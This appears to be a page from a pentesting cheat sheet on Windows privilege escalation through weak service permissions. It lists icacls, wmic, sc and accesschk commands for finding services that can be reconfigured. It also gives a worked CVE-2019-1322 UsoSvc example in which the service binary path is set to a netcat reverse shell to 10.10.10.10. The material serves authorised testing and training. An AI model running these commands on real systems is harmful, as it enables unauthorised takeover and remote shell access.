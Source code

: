 ## Enumerate Services Permissions

| Mask | Permissions |
| --- | --- |
| F | Full access |
| M | Modify access |
| RX | Read and Execute |
| R | Read-only |
| W | Write-only |

```powershell
# Single service permissions
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
wmic service where caption="Serviio" get name, caption, state
sc qc <service name>				# query the configuration of a service
accesschk.exe -ucqv <Service_Name> 	# Check service rights

# Find PATH directories with weak permissions
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt

# Any weak service permissions? Can we reconfigure anything? Again, upload accesschk.
accesschk.exe -uwcqv "Everyone" * /accepteula
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv "Users" * /accepteula

# Show service properties
accesschk.exe -ucqv <service> /accepteula

# Interact with a service
sc stop <service>
sc config <service> binpath="C:\Path\to\binary.exe"
sc start <service>

net start <service>
net stop <service>

# Example with Windows 10 - CVE-2019-1322 UsoSvc
PS C:\Windows\system32> sc.exe stop UsoSvc
PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe config UsoSvc binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe qc usosvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: usosvc
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START  (DELAYED)
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe
```

[^2]: [Unquoted Service Paths](Unquoted%20Service%20Paths.md)
[^1]: https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps